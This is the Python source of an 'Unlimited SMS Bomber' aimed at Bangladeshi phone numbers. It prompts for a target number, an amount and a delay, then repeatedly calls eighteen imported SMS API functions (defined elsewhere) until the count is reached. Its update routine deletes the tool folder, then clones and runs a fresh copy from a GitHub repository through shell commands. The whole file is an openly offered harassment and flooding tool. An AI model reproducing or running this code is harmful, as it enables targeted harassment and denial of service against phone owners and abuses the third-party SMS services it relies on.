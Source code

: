 
# BD_SMS_BOMBER
# Tool : Unlimited BD SMS BOMBING
#Author : gw-rohit
# Coder : ROHIT

import time
import requests
import sys
import os
import shutil
from more.data import *

#Get Rows and Columns of Screen
columns = shutil.get_terminal_size().columns

def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.01)

#Check Update
def update():
    try:
        toolVersion = open("./more/.version", "r").read()
    except:
        toolVersion = "gw-rohit"
    
    try:
        mainVersion = requests.get("https://raw.githubusercontent.com/gw-rohit/BD_SMS_BOMBER/main/more/.version").text
    except:
        psb("\n\033[92m    [\033[91m!\033[92m] Please Connect To The Internet!")
        time.sleep(1)
        l = input("\033[92m    [\033[37m*\033[92m] Press Enter To Continue...")
        update()
    
    #If Tool Version Is Same, Then Return/Close Function
    if (toolVersion == mainVersion):
        return
    
    psb("\n\033[92m    [\033[37m!\033[92m] Tool Update Found!")
    time.sleep(0.5)
    psb("\033[92m    [\033[37m!\033[92m] Updating Tool...")
    
    os.system("cd .. && rm -rf BD_SMS_BOMBER && git clone https://github.com/gw-rohit/BD_SMS_BOMBER> /dev/null 2>&1")
    
    psb("\n\033[92m    [\033[37m*\033[92m] Update Complete!")
    psb("\033[92m    [\033[37m*\033[92m] Starting Tool...")
    time.sleep(0.8)
    
    os.system("cd .. && cd BD_SMS_BOMBER && python BD-SMS.py")


#Logo
def logo():
    os.system("clear")
    print("\033[94m┌────────────────────────────────────────┐".center(columns+5))
    print("\033[94m│     \033[92m▀▛▘     ▗    ▛▀▖       ▌        \033[94m   │".center(columns+15))
    print("\033[94m│     \033[92m ▌▞▀▖▚▗▘▄ ▞▀▖▙▄▘▞▀▖▛▚▀▖▛▀▖▞▀▖▙▀▖\033[94m   │".center(columns+15))
    print("\033[94m│     \033[92m ▌▌ ▌▗▚ ▐ ▌ ▖▌ ▌▌ ▌▌▐ ▌▌ ▌▛▀ ▌  \033[94m   │".center(columns+15))
    print("\033[94m│     \033[92m ▘▝▀ ▘ ▘▀▘▝▀ ▀▀ ▝▀ ▘▝ ▘▀▀ ▝▀▘▘  \033[94m   │".center(columns+15))
    print("\033[94m│                              \033[94m          │".center(columns+9))
    print("\033[94m│ \033[95mAuthor : ToxicNoob                     \033[94m│".center(columns+15))
    print("│ \033[95mTool   : Unlimited SMS Bomber          \033[94m│".center(columns+9))
    print("│ \033[95mGitHub : https://github.com/gw-rohit/BD_SMS_BOMBER \033[94m│".center(columns+9))
    print("│ \033[95mCoder  : HunterSl4d3              \033[37mV3.0 \033[94m│".center(columns+15))
    print("\033[94m└────────────────────────────────────────┘".center(columns+5))


#Options Banner
def banner():
    amount = str(main.amount)
    if (len(amount) == 1):
        amount = amount + "                    "
    elif (len(amount) == 2):
        amount = amount + "                   "
    elif (len(amount) == 3):
        amount = amount + "                  "
    elif (len(amount) == 4):
        amount = amount + "                 "
    #print(" ", end="")
    print("\033[95m-" * (columns), end = "")
    #print(" ")
    print(("\033[92mTarget  : \033[37m0" + main.number + "          ").center(columns + 10))
    print(("\033[92mAmount  : \033[37m" + amount).center(columns + 10))
    print("\033[92mProcess : \033[37mStarted               ".center(columns + 10))
    print("\033[92mNote    : \033[37mPress ctrl + z To Stop".center(columns + 10))
    #print(" ", end="")
    print("\033[95m-" * (columns), end = "")
    print("\n")


#Check SMS Sent and Process
def check(sent):
    amount = main.amount
    delay = main.delay
    
    print("\r\033[92m    [\033[94m#\033[92m] Massage Sent : \033[94m[\033[37m" + str(sent) + "\033[94m]\033[37m", end="")
    
    if (sent == amount):
        psb("\n\n\033[92m    [\033[37m*\033[92m] Bombing Finished!")
        psb("\033[92m    [\033[37m*\033[92m] Amount : \033[37m" + str(amount))
        psb("\033[92m    [\033[37m*\033[92m] Target : \033[37m0" + main.number)
        psb("\033[92m    [\033[37m*\033[92m] From   : \033[37mToxicBomber\n")
        time.sleep(0.6)
        print("\033[92m[\033[93m★\033[92m] Thanks For Using Our Tool \033[92m[\033[93m★\033[92m]".center(columns + 30))
        print("\033[37m")
        
        return True
    else:
        time.sleep(delay)
        return False


#Get Target Number
def getNumber():
    number = input("\n    \033[92m[\033[37m*\033[92m] Enter Target Number:> \033[37m")
    try:
        int(number)
    except:
        psb("\n\033[92m    [\033[91m!\033[92m] Please Enter a Correct Number!")
        number = getNumber()
    if not (len(number) == 11):
        psb("\n\033[92m    [\033[91m!\033[92m] Please Enter 11 Digit Number!")
        number = getNumber()
    
    return number


#Main    
def main():
    number = getNumber()
    number = number[-10:]
    main.number = number
    
    amount = input("    \033[92m[\033[37m*\033[92m] Enter Amount (\033[37mDefault: 10\033[92m):> \033[37m")
    try:
        amount = int(amount)
    except:
        amount = 20
    
    main.amount = amount
    
    delay = input("    \033[92m[\033[37m*\033[92m] Enter Time(\033[37mSec\033[92m) Delay (\033[37mDefault: 2s\033[92m):> \033[37m")
    try:
        int(delay)
    except:
        delay = 2
    
    main.delay = int(delay)
    
    time.sleep(1)
    logo()
    banner()
    sent = 0
    while True:
        code = api1(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api2(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api3(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api4(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api5(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api6(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api7(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api8(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api9(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api10(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api11(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api12(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api13(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api14(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api15(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api16(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api17(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break
        
        code = api18(number)
        if (code == 200):
            sent += 1
            if(check(sent)):
                break



if __name__ == "__main__":
    logo()
    update()
    main()
